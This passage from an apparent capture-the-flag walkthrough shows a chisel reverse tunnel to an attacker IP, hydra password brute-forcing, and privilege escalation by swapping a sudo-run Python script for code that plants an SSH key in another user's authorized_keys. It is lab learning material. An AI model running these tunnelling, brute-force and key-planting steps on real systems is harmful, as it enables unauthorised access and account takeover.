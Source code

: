 ```bash
root@8b39a559b296:~# chmod +x chisel
chmod +x chisel
root@8b39a559b296:~# ./chisel client 10.17.87.131:9001 R:22:172.17.0.1:22
./chisel client 10.17.87.131:9001 R:22:172.17.0.1:22
2025/08/14 04:56:29 client: Connecting to ws://10.17.87.131:9001
2025/08/14 04:56:32 client: Connected (Latency 244.000475ms)
```

For confirmation :

<figure><img src="https://github.com/user-attachments/assets/3ae0143b-fc85-43ad-b707-583c0ce2f4a6" alt=""><figcaption></figcaption></figure>

Now, as we have valid username `ramsey`, we can brute force that user’s password with hydra.

<figure><img src="https://github.com/user-attachments/assets/47159fe8-5e24-4a31-addb-e8e9f94c1986" alt=""><figcaption></figcaption></figure>

Found user ramsey’s password.

Logged in to ramsey’s account via ssh

<figure><img src="https://github.com/user-attachments/assets/9ae86f43-5d15-4058-aa40-7cdfed33cf6c" alt=""><figcaption></figcaption></figure>

Grabbed user flag

<figure><img src="https://github.com/user-attachments/assets/e8224acb-5ebb-42f2-95e5-45590a666e3b" alt=""><figcaption></figcaption></figure>

***

### Shell As Oliver

Checking sudo privileges of user ramsey, shows ramsey can run a python script named `vuln.py` (which is in his own directory `/home/ramsey` )as user oliver.

<figure><img src="https://github.com/user-attachments/assets/0887ee46-0a6d-48e5-9203-5284b7bbe6a2" alt=""><figcaption></figcaption></figure>

As we don’t have direct write access to that `vuln.py` file, but we have full permission on the directory where it is stored. So I changed that file name to `vuln-bak.py` and created another file with the same name `vuln.py` and put following code in that file via nano editor.

<figure><img src="https://github.com/user-attachments/assets/285d67c0-8e0c-4788-bca3-e9bffebac6b9" alt=""><figcaption></figcaption></figure>

```bash
import os
os.system('mkdir /home/oliver/.ssh')
os.system('cp /home/ramsey/oliver.pub /home/oliver/.ssh/authorized_keys')
```

This code will create a directory `.ssh` on oliver’s home directory, then it will copy oliver.pub(Which we will generate just after this) file contents to `authorized_keys` file of that `.ssh` directory inside `/home/oliver` . Which will give us access to log into oliver’s account via ssh.

Generated ssh-keys

<figure><img src="https://github.com/user-attachments/assets/7b4f56d4-0778-428c-ba80-6ea4bf5fb4b7" alt=""><figcaption></figcaption></figure>
